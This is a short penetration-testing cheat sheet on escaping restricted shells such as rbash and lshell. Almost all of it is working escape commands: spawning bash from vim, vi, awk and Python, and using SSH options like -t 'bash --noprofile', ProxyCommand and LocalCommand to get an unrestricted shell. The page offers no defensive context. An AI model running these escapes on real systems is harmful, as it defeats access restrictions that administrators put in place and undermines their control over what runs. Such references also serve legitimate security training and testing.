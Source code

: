 # Restricted Shell Escapes

* Determine what shell you are currently running in&#x20;

```
echo $0 echo $SHELL
```

## -rbash

* List commands you are permitted to run&#x20;

```
compgen -c
```

### Escapes

#### VIM

```
vim 
:set shell=/bin/bash 
:shell
```

#### VI

```
vi 
:set shell=/bin/bash 
:shell
```

#### AWK

```
awk 'BEGIN {system("/bin/bash")}'
```

#### Python

```
python -c 'import os; os.system("/bin/bash");'
```

### SSH

```
ssh ryuu@$host -t 'bash --noprofile' 
ssh ryuu@$host -o ProxyCommand=';sh 0<&2 1>&2' x
```

#### Local SSH (SSH to yourself specifying command

```
ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh host
```

#### lshell

```
echo os.system('/bin/bash')
```
